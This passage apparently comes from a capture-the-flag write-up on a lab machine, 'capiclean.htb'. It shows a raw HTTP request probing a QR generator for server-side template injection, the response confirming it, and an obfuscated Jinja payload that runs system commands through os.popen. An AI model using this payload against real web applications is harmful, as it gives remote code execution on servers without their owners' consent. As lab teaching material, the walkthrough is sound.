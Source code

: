 ```
POST /QRGenerator HTTP/1.1
Host: capiclean.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 63
Origin: http://capiclean.htb
Connection: close
Referer: http://capiclean.htb/QRGenerator
Cookie: session=eyJyb2xlIjoiMjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzMifQ.Zi_FFg.4KcBWzEmiHeXXKR322SDXUddFsA
Upgrade-Insecure-Requests: 1

invoice_id=&form_type=scannable_invoice&qr_link=%7B%7B7*7%7D%7D
```

The server would then issue the following valid response. Most of the response has been removed for brevity, however we can see that the value behind our image is now 49 which means that the template has executed our calculation of 7*7. This is a clear sign of template injection. 

```
HTTP/1.1 200 OK
Date: Mon, 29 Apr 2024 20:04:14 GMT
Server: Werkzeug/2.3.7 Python/3.10.12
Content-Type: text/html; charset=utf-8
Vary: Cookie,Accept-Encoding
Content-Length: 4422
Connection: close

<!DOCTYPE html>
<html lang="en">
<head>
<Snipped>

<div class="qr-code-container"><div class="qr-code"><img src="data:image/png;base64,49" alt="QR Code"></div>
</body>
</html>
```

So our next step is to expand this to do some kind of code execution. We'll start by trying to output the whoami command with this server side template injection. with the following payload we'd be able execute arbitary system commands


```
{% raw %}{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("bash -c 'whoami'")|attr("read")()}}{% endraw %}
```

Our browser would send the following request when using this payload.
